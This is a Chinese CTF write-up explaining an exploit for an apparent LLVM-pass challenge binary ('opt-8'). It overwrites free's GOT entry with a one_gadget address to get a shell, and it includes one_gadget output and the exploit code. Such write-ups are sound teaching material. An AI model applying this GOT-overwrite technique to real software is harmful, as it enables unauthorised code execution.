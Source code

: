 min函数减法操作，有2个参数，第一个参数指定寄存器，第二个参数是要减去的数值。

一开始，reg1、reg2、stack中所有的值都为0，由于本题中opt-8程序没有开启PIE保护，因此其加载基址固定不变，我们可以利用这个获取到其got表中的地址，将其拷贝到reg或stack中。然后在此基础上计算出one_gadget的地址，将其写回到got表，即可执行one_gadget，逻辑很简单。

在这里，我们选择free函数作为地址覆盖的对象，找到opt程序中free函数got表的位置为0x77E100。因此o0o0o0o0函数的第一条语句应该是：add(1, 0x77E100);。然后使用load函数将got表中地址值保存到另一个寄存器中：load(1);。现在我们想要的地址在reg2中，加上相应的one_gadget偏移。

onegadget

```assembly
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

exp

```assembly
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg, int val){};
void min(int reg, int val){};

void o0o0o0o0(){
	add(1, 0x77E100);
	load(1);
	add(2, 0x4942e);
	store(1);
}
```

